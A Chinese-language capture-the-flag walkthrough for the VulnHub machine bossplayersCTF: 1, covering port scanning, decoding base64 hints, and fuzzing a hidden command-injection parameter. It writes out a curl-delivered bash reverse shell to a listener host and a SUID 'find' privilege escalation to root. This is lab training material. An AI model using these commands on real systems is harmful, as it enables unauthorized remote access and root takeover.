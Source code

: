 # bossplayersCTF: 1

2024-6-13 https://www.vulnhub.com/entry/bossplayersctf-1,375/

difficulty: Beginner

## IP

192.168.5.38

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey:
|   2048 ac0d1e7140ef6e6591958d1c13138e3e (RSA)
|   256 249e2718dfa4783b0d118a9272bd058d (ECDSA)
|_  256 26328d73890529438ea113ba4f8353f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```

http://192.168.5.38/robots.txt

```
super secret password - bG9sIHRyeSBoYXJkZXIgYnJvCg==
```

解码后 lol try harder bro 没什么用

http://192.168.5.38/ 首页没显示什么，源码中有提示: WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK 在页面的最底部，也是常用技法了。

经过 3 次 base64 解码，得到了最终的信息: workinginprogress.php 页面上显示了一个 Test ping command - [ ] 看样子可能有命令执行，但是目前不知道参数，用 FUZZ 尝试看看能不能找到:

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.38/workinginprogress.php?FUZZ=ls -fs 271
```

最终找到参数 cmd：

```
curl -G --data-urlencode 'cmd=whoami' http://192.168.5.38/workinginprogress.php
```

直接创建反弹连接，kali 监听 8888 端口：

```
curl -G --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.38/workinginprogress.php
```

得到了反弹的链接。

进行系统枚举，sudo、crontab、getcap 等都没有特殊权限，suid 发现 find，可以直接提权到 root:

```
www-data@bossplayers:/etc/cron.d$ find . -exec /bin/sh -p \; -quit
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
Y29uZ3JhdHVsYXRpb25zCg==
```
